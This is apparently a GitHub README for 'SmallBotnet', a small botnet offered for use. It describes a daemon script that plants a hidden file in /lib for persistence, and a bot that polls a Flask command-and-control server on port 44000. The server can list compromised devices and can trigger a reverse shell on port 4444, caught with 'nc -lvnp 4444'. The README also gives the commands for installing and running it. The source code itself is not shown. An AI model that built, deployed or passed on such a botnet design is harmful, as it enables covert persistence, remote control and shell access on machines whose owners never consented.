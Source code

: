 # SmallBotnet

## Small Botnet Code

The `deamon.sh` script creates a daemon that starts every time the server is online. <br>
It also creates a file in `/lib` called `.smd.sh`, which is started by the daemon. <br>
The `.smd.sh` script then tries to connect to the HTTP server launched by `WebServerControler.py` on the default port 44000. <br>
The web server returns the command you selected in `WebServerControler.py`. <br> <br>
## Commands

`list_device_info` > Returns the device info of all bots in a `data.json` file. <br>
`list_device_ip` > Returns all IP addresses of the devices, also in a `data.json` file. <br>
`<device ip>` > The selected IP starts a reverse shell on port 4444. You can connect to it with `nc -lvnp 4444`. <br> <br>
## Example

`chmod +x deamon.sh` | `sudo ./deamon.sh <ip>` <br>
You can also specify the port after the IP, but then you need to change it in the web server code as well. By default, it is set to 44000. <br>
`python3 WebServerControler.py` <br>
Install the required imports: <br>
`
from flask import Flask, request  
import threading  
import time  
import logging  
`
